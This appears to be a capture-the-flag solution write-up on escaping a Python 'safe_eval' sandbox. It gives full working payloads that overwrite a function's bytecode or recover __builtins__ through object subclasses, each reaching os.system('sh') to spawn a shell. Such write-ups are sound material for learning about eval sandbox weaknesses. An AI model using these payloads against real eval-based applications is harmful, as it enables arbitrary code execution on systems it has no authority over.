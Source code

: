 # Solution

There are a few ways to solve this problem, each described within the sections below.

## Overwriting `__code__`

An interesting solution to this problem is to overwrite the Python bytecode of the `safe_eval` function. Because this function is within the local scope, it's possible for us set arbitrary attributes on it. It turns out that Python function VM bytecode is stored as an object on the function itself, in the `__code__` attribute. So, we just need a reference to a `__code__` constructor and some shell-popping bytecode to solve this challenge. The constructor can be retrieved by pulling it from a `lambda` (among other techniques):

```python
>>> (lambda: 1).__code__.__class__()
Traceback (most recent call last):
  File "<stdin>", line 1, in <module>
TypeError: code() takes at least 14 arguments (0 given)
```

But how do we know the arguments that this type expects? It turns out that `__code__` objects are instances of the `CodeType` class, whose arguments are documented in the [`inspect` module](https://docs.python.org/3/library/inspect.html) page. We can get a shell-popping bytecode by pulling it off of an existing functon, as is done in [`gen-bytcode.py`](./gen-bytecode.py).

So, we can use the following commands to overwrite the bytecode of the `safe_eval` function and call it once more to pop a shell:

```
> safe_eval __code__ "(lambda: 1).__code__.__class__(1,0,0,2,3,67,b'd\x01d\x00l\x00}\x01|\x01\xa0\x01d\x02\xa1\x01\x01\x00d\x00S\x00',(None, 0, 'sh'),('os', 'system'),('x', 'os'),'gen-bytecode.py','shell',7,b'\x00\x01\x08\x01',(),())"
TOKEN: (lambda: 1).__code__.__class__(1,0,0,2,3,67,b'd\x01d\x00l\x00}\x01|\x01\xa0\x01d\x02\xa1\x01\x01\x00d\x00S\x00',(None, 0, 'sh'),('os', 'system'),('x', 'os'),'gen-bytecode.py','shell',7,b'\x00\x01\x08\x01',(),())
VALUE: <code object shell at 0x000001CC59F2FD40, file "gen-bytecode.py", line 7>
[DEBUG]: Setting <function main.<locals>.safe_eval at 0x000001CC59F323A0>.__code__ to <code object shell at 0x000001CC59F2FD40, file "gen-bytecode.py", line 7>
> safe_eval 0 0
$
```

## Recovering `builtins`

It is also possible to recover a reference to [`builtins`](https://docs.python.org/3/library/builtins.html), via several methods. The easiest way to determine these paths is via a an attribute and item traversal of descendants of `object`. This technique is explained in [this awesome blog post](https://nedbatchelder.com/blog/201302/finding_python_3_builtins.html). I have provided a slightly updated version of this script in the [`find-builtins.py`](./find-builtins.py) file in this repository.

Looking at the output from this script, let's pick one reference to `builtins` to build around:

```python
re.Scanner.__init__.__globals__['__builtins__']
```

The [`re`](https://docs.python.org/3/library/re.html) module will not be imported into the scope where the `eval` occurs in the target program, so we have to find another way of getting a reference to the `Scanner` class. Fortunately, we can do so by enumerating all subclasses of `object`.

Because Python provides a [`__subclasses__`](https://stackoverflow.com/questions/3862310/how-to-find-all-the-subclasses-of-a-class-given-its-name) method on all subclasses of `object` (which is the case for all classes in Python 3), we can enumerate all subclasses of `object` until we find `Scanner`. But, without `builtins` in scope, we also don't have a reference to `object`. This can be solved by getting a reference to `object` with something like `().__class__.__base__`. This is easiest done in a comprehension:

```python
>>> [x for x in ().__class__.__base__.__subclasses__() if x.__name__ == 'Scanner'][0]
<class 're.Scanner'>
```

Using this as our reference to `re.Scanner`, we can build a full payload of the form:

```python
[x for x in ().__class__.__base__.__subclasses__() if x.__name__ == 'Scanner'][0].__init__.__globals__['__builtins__']
```

With a reference to `builtins`, we can chain it with `__import__('os').system('sh')` to spawn a shell:

```python
>>> [x for x in ().__class__.__base__.__subclasses__() if x.__name__ == 'Scanner'][0].__init__.__globals__['__builtins__']['__import__']('os').system('sh')`
$
```

So, for our target application, a shell-popping command we can send is:

```sh
safe_eval 0 "[x for x in ().__class__.__base__.__subclasses__() if x.__name__ == 'Scanner'][0].__init__.__globals__['__builtins__']['__import__']('os').system('sh')"
```